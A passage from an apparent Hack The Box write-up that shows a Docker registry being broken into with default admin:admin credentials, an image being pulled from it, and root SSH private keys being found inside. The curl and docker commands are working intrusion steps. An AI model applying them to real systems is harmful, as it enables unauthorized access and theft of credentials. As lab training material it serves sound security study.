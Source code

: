 My next step was to verify if there actually is a Docker registry running on the machine. The [registry documentation](https://docs.docker.com/registry/spec/api/) reveals that it exposes a simple HTTP API. One of its endpoints is `/v2` which should return some basic info about the registry running on the machine.

```text
kali@kali:~$ curl http://docker.registry.htb/v2/ -v
...
< HTTP/1.1 401 Unauthorized
< Www-Authenticate: Basic realm="Registry"
...
{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":null}]}
```

I took this as a partial success. There is definitely a Docker registry running but with no means of authenticating myself just yet. Regardless, I had a new path to investigate.

### Insecure Docker registry

The documentation points out that the registry returns a `WWW-Authenticate` header with information on how I'm meant to authenticate. However I was successful after trying some basic username and password combinations. Using `admin:admin` is enough to be able to use the API. My next step was to list all available images. The `/v2/_catalog` endpoint achieves just that.

```text
kali@kali:~$ curl http://docker.registry.htb/v2/_catalog -H "Authorization: Basic $(echo -n "admin:admin" | base64)"
{"repositories":["bolt-image"]}
```

After installing Docker on my local machine and trying to connect to the registry, I found that Docker knows better not to trust any rogue registry. Any attempts to connect to an insecure registry are ignored by default. However by listing the registry in the [Docker daemon configuration file](https://docs.docker.com/registry/insecure/) and marking it as insecure, I could convince Docker to still let me connect to it. This means I could now pull the `bolt-image`, run it and get a shell to look at what its purpose is.

```text
kali@kali:~$ docker login -u admin -p admin docker.registry.htb
kali@kali:~$ docker pull docker.registry.htb/bolt-image
kali@kali:~$ docker run -it docker.registry.htb/bolt-image sh
```

My first thought was to check the directory of the root user. And in fact, I found a SSH keypair which could potentially allow me to SSH into the machine.

```text
# pwd
/root/.ssh
# ll
total 24
drwxr-xr-x 2 root root 4096 May 25  2019 .
drwx------ 1 root root 4096 May 25  2019 ..
-rw-r--r-- 1 root root   60 May 25  2019 config
-rw------- 1 root root 3326 May 25  2019 id_rsa
-rw-r--r-- 1 root root  743 May 25  2019 id_rsa.pub
-rw-r--r-- 1 root root  444 May 25  2019 known_hosts
```
